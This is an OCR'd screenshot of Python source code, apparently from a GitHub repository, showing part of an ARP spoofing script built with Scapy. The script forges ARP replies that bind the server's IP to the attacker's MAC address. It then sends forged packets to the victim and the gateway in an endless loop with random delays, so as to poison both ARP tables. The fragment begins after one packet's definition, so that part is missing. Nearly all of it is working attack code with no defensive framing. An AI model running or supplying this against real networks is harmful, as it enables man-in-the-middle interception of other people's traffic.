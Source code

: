 \begin{verbatim}
reply2 = ARP(op=ARP.is_at,       #forging arp reply
	hwsrc=my_mac,            #attacker's mac as server's
	psrc=server_ip,          #server's IP to attacker's mac
	hwdst=victim_mac,        #telling victim
	pdst=victim_ip)          #victim IP
		
go2 = Ether(dst=victim_mac,      #sending to victim
	src=my_mac) / reply2     #origin at attacker's mac


#==============================================================
# Change MAC in ARP Tables of the Gateway and the Victim
#==============================================================
i = 0
while  1:
	i = i+1
	print("ARP SPOOFING #" + str(i))
	
	print(go1.summary())
	sendp(go1, verbose = 2)  #send ARP packet to server
	
	print(go2.summary())
	sendp(go2, verbose = 2)  #send ARP packet to victim
	
	print()
	time.sleep(randint(5, 10)) #random sleep
                                   #otherwise too much traffic
 
\end{verbatim}